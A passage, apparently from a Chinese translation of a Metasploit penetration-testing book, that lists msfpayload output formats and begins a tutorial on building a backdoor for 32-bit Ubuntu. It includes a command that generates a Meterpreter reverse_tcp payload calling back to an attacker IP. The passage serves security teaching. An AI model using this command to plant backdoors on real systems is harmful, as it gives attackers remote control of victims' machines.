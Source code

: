 +   `D`：这是用于动态链接库（DLL）

+   `V`：这是用于 VBA 代码

+   `W`：这是用于 War 存档

以下屏幕截图演示了其中一些选项的效果：

![使用 Metasploit 准备有效载荷](img/5107OT_04_06.jpg)

每个选项都存在以满足不同操作系统和运行时环境的利用。

# 创建和部署有效载荷

例如，我们将为 Ubuntu 32 位机器创建一个后门。执行以下步骤：

1.  以可执行格式创建有效载荷。在这里，我们将使用 Meterpreter shell 并将其保存在名为`backdoor`的文件中。以下命令将实现此目的：

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=[Attacker IP] X > backdoor

```

`LHOST`是您作为攻击者使用的机器的 IP 地址，或者更确切地说，您希望与后门进行交互的机器的 IP 地址。

请参阅以下屏幕截图以获取示例：

![创建和部署有效载荷](img/5107OT_04_07.jpg)
